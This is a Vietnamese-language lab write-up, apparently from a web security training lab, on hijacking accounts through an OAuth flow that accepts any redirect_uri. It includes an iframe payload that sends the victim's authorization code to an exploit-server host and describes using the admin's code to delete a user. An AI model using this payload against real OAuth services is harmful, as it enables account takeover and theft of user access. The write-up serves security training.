



# Lab: OAuth account hijacking via redirect_uri

**Mục tiêu:** Chiếm quyền account bằng cách lợi dụng `redirect_uri` có thể redirect tới domain/URL do attacker kiểm soát (open redirect).

**Phát hiện (Detect)**

- Gửi request `/auth?client_id=...&redirect_uri=...&response_type=code` và thử thay `redirect_uri` thành attacker URL → server chấp nhận (không whitelist chặt).
- Điều này cho phép attacker nhận `code` trong domain/URL của mình.

**Khai thác (Exploit)**

- Tạo iframe trên exploit server trỏ tới endpoint `/auth` với `redirect_uri` đặt thành exploit-server.

```html
<iframe
  src="https://oauth-0a3b00ec043f786080727e2d0244005e.oauth-server.net/auth?client_id=...&redirect_uri=https://exploit-0af1004e043378f880a97f4a01b600d3.exploit-server.net&response_type=code&scope=openid%20profile%20email"
></iframe>
```

- Deliver exploit cho victim; khi victim hoàn tất flow, `code` sẽ được gửi tới exploit server.
- Sử dụng `code` để exchange lấy token / truy cập tài khoản nạn nhân.

**Kết quả**

- Thu được `code` của administrator và dùng nó để truy cập admin panel (xóa user `carlos`).



thu được code của admin: euILGiIgR55LSfoWCLtamERN-YUMFHJHS5rHFGh5uwD.

gửi request đó trên máy máy attacker:



Kết quả: truy cập được admin panel để xóa user carlos


